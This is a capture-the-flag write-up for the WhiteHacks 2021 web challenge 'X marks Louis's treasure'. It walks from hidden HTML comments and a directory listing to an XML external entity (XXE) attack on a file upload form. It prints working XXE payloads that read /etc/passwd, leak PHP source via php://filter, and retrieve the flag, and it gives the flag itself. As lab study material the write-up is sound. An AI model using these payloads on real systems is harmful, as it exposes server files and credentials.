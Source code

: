 # X marks Louis's treasure

### burden_bear

**Category: Web**

> Finding a web page that leads to Louis' hidden treasure on his server HEHEHEHE
>
>  [chals.whitehacks.ctf.sg:50101](http://chals.whitehacks.ctf.sg:50101/)

The login page hints at some kind of SQL injection attack, but basic attacks don't seem to yield any results. Looking at the source code, we find a HTML comment: 

```html
<!-- Or is it here in <img src="./cc665cc8baf65ba4f4b28dafdc3cf5a7/da4446ea44be23905b233381e45dd1f1/"-->
```

Accessing that link and inspecting element again yields another comment:

```html
<!--<a href="../secret.html"></a>-->
```

Secret.html contains yet another comment:

```html
<!--Wanna see more? Figure out where you should go? be a DIR-ean LISTer-->
```

I figured the challenge required listing the `./cc665cc8baf65ba4f4b28dafdc3cf5a7` directory, so I let [`dirb`](https://tools.kali.org/web-applications/dirb) run on the URL while looking at other challenges. However I later realized that directory listings were enabled on `./cc665cc8baf65ba4f4b28dafdc3cf5a7` so using dirb was unnecessary. 

Viewing the directory listing reveals a few interesting files:

- `upload.php`
- `uploads/user.xml`

`upload.php` features a file upload form, while `user.xml` has the following contents:

```xml
<root>
    <username>l0j0</username>
    <password>super_secr3t</password>
</root>
```

It is thus likely that this app is vulnerable to [XXE](https://portswigger.net/web-security/xxe). To verify this, we can try reading `/etc/passwd`

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <username>l0j0</username>
    <password>&xxe;</password>
</root>
```

Great! A list of users is returned in the password field.

Now, we can try changing the file path to obtain the flag. However, this error is returned: `failed to load external entity "file:///flag.txt" in **/var/www/app/cc665cc8baf65ba4f4b28dafdc3cf5a7/upload.php** on line **15**`. We can try to read the source code of `upload.php` for some clues. However, we cannot simply read the code as it will be executed by the PHP engine when it is injected into the page, so we have to encode it. Fortunately,  we can use the `php://filter` feature to encode files for us. 

```xml-dtd
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/app/cc665cc8baf65ba4f4b28dafdc3cf5a7/upload.php"> ]>
```

Decoding the base64, we find the following comment:

```html
<!-- You won't believe it, but the flag is in /home/l0j0/flag.txt - you'll never get it though! -->
```

Note: This comment can also be found by HTML inspecting the page :<

Setting the XXE path to `/home/l0j0/flag.txt` reveals the flag: `WH2021{th3_sup3r_s3cr3t_tr34sur3!}`


